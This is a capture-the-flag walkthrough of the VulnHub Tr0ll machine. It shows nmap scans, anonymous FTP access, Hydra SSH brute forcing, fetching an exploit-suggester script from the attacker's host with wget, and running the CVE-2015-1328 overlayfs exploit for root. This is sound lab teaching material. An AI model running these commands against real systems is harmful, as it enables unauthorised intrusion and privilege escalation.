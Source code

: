# CTF #3 - Tr0ll
Today we are hacking into Tr0ll - a boot-to-root vulnerable machine. It's not a hard machine to hack into but it's a good one to learn new stuff and let the previous knowledge sink in.

As always, let's start with my setup:
## My Setup
- A VirtualBox VM running **Kali Linux.** 
- Another VM running **Tr0ll.** You can download it **[here.](https://www.vulnhub.com/entry/tr0ll-1,100/)** 
- A **local network** for both machines. If you want to know how to set up a local network for your VirtualBox adventures, follow [**this simple tutorial.**](https://github.com/amtzespinosa/secure-network-for-ctf)
- Coffee. You always need coffee for hacking.
- And today, to season this CTF session... Let's play [**Megadeth - Rust in Peace.**](https://www.youtube.com/watch?v=xvfU5MGyI7k&ab_channel=TheRockChannel)

Now you are all set up and ready to go!


## Recon

I always like to run a fast/aggressive scan over the network with **Nmap.** To do so, I use this command:

    sudo nmap -sV -T4 192.168.1.1/24

*192.168.1.1/24 is my local network --- yours might be different. Check it with the command* `ip a`.

> **Note:** In real world situations, this scans may trigger firewalls and other network security appliances (in case the network is secure). If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable.

After getting the victim's IP, I like to run another scan. This time a more **thorough and focused scan** with the command:

    sudo nmap -p- -T4 -A -O -v 192.168.1.12

This way, we get more information about the victim. Let's have a look:

    Nmap scan report for 192.168.1.12
    Host is up (0.00024s latency).
    Not shown: 65532 closed tcp ports (reset)
    
    PORT   STATE SERVICE VERSION
    
    21/tcp open  ftp     vsftpd 3.0.2
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap [NSE: writeable]
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to 192.168.1.23
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 600
    |      Control connection is plain text
    |      Data connections will be plain text
    |      At session startup, client count was 2
    |      vsFTPd 3.0.2 - secure, fast, stable
    |_End of status
    
    22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   1024 d618d9ef75d31c29be14b52b1854a9c0 (DSA)
    |   2048 ee8c64874439538c24fe9d39a9adeadb (RSA)
    |   256 0e66e650cf563b9c678b5f56caae6bf4 (ECDSA)
    |_  256 b28be2465ceffddc72f7107e045f2585 (ED25519)
    
    80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
    | http-methods: 
    |_  Supported Methods: GET HEAD POST OPTIONS
    |_http-title: Site doesn't have a title (text/html).
    | http-robots.txt: 1 disallowed entry 
    |_/secret
    |_http-server-header: Apache/2.4.7 (Ubuntu)
    
    MAC Address: 08:00:27:2E:C5:50 (Oracle VirtualBox virtual NIC)
    Device type: general purpose
    Running: Linux 3.X|4.X
    OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
    OS details: Linux 3.2 - 4.9
    Uptime guess: 0.004 days (since Sun Apr 16 13:14:44 2023)
    Network Distance: 1 hop
    TCP Sequence Prediction: Difficulty=258 (Good luck!)
    IP ID Sequence Generation: All zeros
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Ok, now we know that ports 21 **(FTP)**, 22 **(SSH)** and 80 **(HTTP)** are open. As we can see, anonymous login is allowed for an FTP directory. Let's log in and see what we have:

    ftp 192.168.1.12

> **USER:** anonymous 
> 
> **PASS:**

 

And now we can list the files. `ls` and we can see a `lol.pcap` file. This files are the output files of sniffing tools like **Wireshark**. Let's download it and have a look.

    get lol.pcap
   
By default it will be saved in your kali folder. Right click and "Open with Wireshark". If we analyze it, we find a message: 

    Well, well, well, aren't you just a clever little devil, you almost found the sup3rs3cr3tdirlol :-P\n
    \n
    Sucks, you were so close... gotta TRY HARDER!\n

Isn't it obvious? Let's open Firefox and look for:

    http://192.168.1.12/sup3rs3cr3tdirlol/

And there we go! We found the **/sup3rs3cr3tdirlol**. Here we can find a file we should download. To see what the file contains we can use `strings` command.

    strings roflmao

And we get an output. But the interesting thing of this output is this line: 

**Find address 0x0856BF to proceed**

Another directory? Hell yeah!

    http://192.168.1.12/0x0856BF/

More files. This time looks like we get a usernames list and a Pass.txt. Let's try some **SSH** bruteforcing with **Hydra.** 

> **Note:** After a few tries... I realized that the password wasn't the lines contained in the Pass.txt but Pass.txt itself!

    sudo hydra -L users.txt -p Pass.txt ssh://192.168.1.12 

Note I have made a new text document with the usernames. And quickly we find a valid combination:

> **USER:** overflow
> 
> **PASS:** Pass.txt

Let's connect via **SSH**! Ok, now we're into the system! Let's start enumerating and deciding the way to escalate privileges but first:

    /bin/bash -i

Oh yeah! Much better. But be careful: we are againts the clock! 

## Enumeration
Once inside, the way I use to enumerate possible ways for **PrivEsc** is by getting into the `tmp` folder and downloading the Linux Exploit Suggester script into the victim's machine and running it. This way I can see my possibilities. To do this, paste the script into your `/var/www/html` folder. Once you have it:

    sudo service apache2 start

Now, in **troll** machine, inside `tmp` folder:

    wget http://192.168.1.23/les.sh

> **Note:** this should be your local IP. Mine is 192.168.1.23.

Now we should give permissions to the file:

    chmod 777 les.sh

And run it:

    ./les.sh

Now we know that this machine is specifically vulnerable to:

    [+] [CVE-2015-1328] overlayfs
    
       Details: http://seclists.org/oss-sec/2015/q2/717
       Exposure: highly probable
       Tags: [ ubuntu=(12.04|14.04){kernel:3.13.0-(2|3|4|5)*-generic} ],ubuntu=(14.10|15.04){kernel:3.(13|16).0-*-generic}
       Download URL: https://www.exploit-db.com/download/37292

I'm leaving you both files for downloading: les.sh and the folder containing the CVE-2015-1328. Once again, we just need to upload to **troll** the exploit as we did with the les.sh script. Once you have it, we are ready to go!

## Exploitation

To compile the exploit we need to run this command:

    gcc 2015.c -o exploit

And give permissions to the output file:

    chmod 777 exploit

Now, run it!

    ./exploit

And we should see a root shell now!

    #

Change to the `root` directory and there youll find **proof.txt**. You made it! And that's it for this machine. Happy hacking!

Check my next adventure: [CTF #4 - Kioptrix 1.1](https://github.com/amtzespinosa/kioptrix2-walkthrough)
